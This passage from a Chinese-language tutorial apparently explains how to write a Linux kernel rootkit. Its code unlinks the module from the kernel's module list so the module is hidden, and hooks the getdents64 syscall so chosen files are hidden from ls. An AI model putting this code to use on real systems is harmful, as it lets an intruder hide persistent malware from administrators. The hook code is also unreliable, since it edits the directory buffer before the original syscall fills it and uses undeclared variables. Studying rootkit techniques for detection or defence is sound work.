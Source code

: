```c
struct module {
	enum module_state state;

	/* Member of list of modules */
	struct list_head list;

	// ... and so on 
}
```

为了隐藏模块，我们只需把对应rootkit模块的list从全局链表中删除即可。内核已经替我们实现了list_del和list_add函数，它们被封装在list.h头文件中，我们调用即可。在下面的代码中，THIS_MODULE宏指向当前模块的module struct

值得注意的是，为了恢复节点，我们需要临时保存节点的信息

```c
static void hide_myself(void) {  list_del(&THIS_MODULE->list);  }

static void show_myself(void) {  list_add(&THIS_MODULE->list, module_prev); }

static inline void module_info(void) {   module_prev = THIS_MODULE->list.prev;  }
```

## 文件隐藏

ls命令可以打印出文件，为了深入研究ls做了什么，可以使用strace命令进行追踪。strace具有许多有趣的选项，比如`-c`可以打印出统计表格， `-p`可以追踪某一进程，等等 

一通分析后可以发现ls命令调用了`getdents64 syscall`（实际上有些较新的内核版本仍然会调用`getdents`函数而不是较新的`getdents64`，这个后面还会提到），该函数可以得到目录的entry，并返回读取的字节数。我们可以通过对该函数进行hook从而达到隐藏文件的目的

下面是hook_getdents64函数的设计，省略了一些报错处理和别的细节

```c
// 声明原本的getdents64函数
static asmlinkage long (*orig_getdents64)(const struct pt_regs *);
// 声明我们设计的hook_getdents64函数
asmlinkage long hook_getdents64(const struct pt_regs *);
// ssize_t getdents64(int fd, void *dirp, size_t count);
asmlinkage int hook_getdents64(const struct pt_regs *regs)
{
	//获取寄存器中的内容
	struct linux_dirent64 __user *dirent = (struct linux_dirent64 *)regs->si;
	//遍历，对希望隐藏的文件进行处理
	while (tlen > 0)
    {
        len = current_dir->d_reclen;
        tlen = tlen - len;
        if (check_file(current_dir->d_name))//覆盖操作
        {
            ret = ret - len;
            memmove(current_dir, (char *)current_dir + current_dir->d_reclen, tlen);
        }
        else
            current_dir = (struct linux_dirent64 *)((char *)current_dir + current_dir->d_reclen);
    }
	//返回正常调用的结果
	return orig_getdents64(regs);
}
```
